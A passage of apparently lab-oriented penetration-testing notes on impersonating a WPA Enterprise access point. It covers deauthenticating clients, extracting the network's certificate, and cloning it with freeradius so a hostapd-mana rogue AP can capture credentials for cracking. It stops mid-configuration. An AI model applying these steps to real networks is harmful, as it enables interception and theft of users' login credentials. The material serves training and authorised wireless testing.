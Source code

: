 We will be creating a rogue AP to match the settings of our target as closely as possible. We will use hostapd-mana to create the rogue AP and match the target settings. This will help us capture the credentials, which we will crack later.

```
#airodump
sudo airodump-ng wlan0mon

#MGT => WPA Enterprise
```

Deauthenticate a client in order to get the certificate. Once airodump-ng indicates we've captured a handshake, we can stop the capture and disable monitor mode with `sudo airmon-ng stop wlan0mon`.

Wireshark filter for certificate
```
tls.handshake.certificate
```
Packet Details => Extensible Authentication Protocol => Transport Layer Security
TLSv1 Record Layer: Handshake Protocol: Certificate => Handshake Protocol: Certificate => Certificates
Right click and select Export Packet (in .der format)

```
# view certificate details 
openssl x509 -inform der -in CERTIFICATE_FILENAME.der -text 


#convert it to PEM
openssl x509 -inform der -in CERTIFICATE_FILENAME.der -outform pem -out OUTPUT_PEM.crt
```

## Generate certificates that look similar to the ones we received.
```
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
nano ca.cnf
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...

nano server.cnf
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = server@playtronics.com
commonName              = "Playtronics"
...

nano client.cnf
...
[client]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
```